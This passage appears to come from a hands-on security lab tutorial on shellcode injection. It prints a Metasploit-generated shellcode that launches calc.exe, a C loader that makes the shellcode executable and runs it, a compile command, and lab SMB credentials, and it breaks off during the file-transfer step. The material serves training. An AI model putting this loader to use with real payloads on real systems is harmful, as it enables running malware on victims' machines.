 As a result, the Metasploit framework generates a shellcode that  executes the Windows calculator (calc.exe). The Windows calculator is  widely used as an example in the Malware development process to show a  proof of concept. If the technique works, then a new instance of the  Windows calculator pops up. This confirms that any executable shellcode  works with the method used. 

### Shellcode injection

Hackers inject shellcode into a running or new thread and process using various techniques. Shellcode injection techniques modify the program's  execution flow to update registers and functions of the program to  execute the attacker's own code.

Now let's continue using the generated shellcode and execute it on the operating system. The following is a C code containing our generated shellcode which will be injected into memory and will execute "calc.exe". 

On the AttackBox, let's save the following in a file named `calc.c`:

```c
#include <windows.h>
char stager[] = {
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00" };
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```

Now let's compile it as an exe file:

- **Compile our C program for Windows**

```shell-session
user@AttackBox$ i686-w64-mingw32-gcc calc.c -o calc-MSF.exe        
```

Once we have our exe file, let's transfer it to the Windows machine  and execute it. To transfer the file you can use smbclient from your  AttackBox to access the SMB share at \\10.10.81.150\Tools with the  following commands (remember the password for the `thm` user is `Password321`):

- **Copy calc-MSC.exe to Windows Machine**
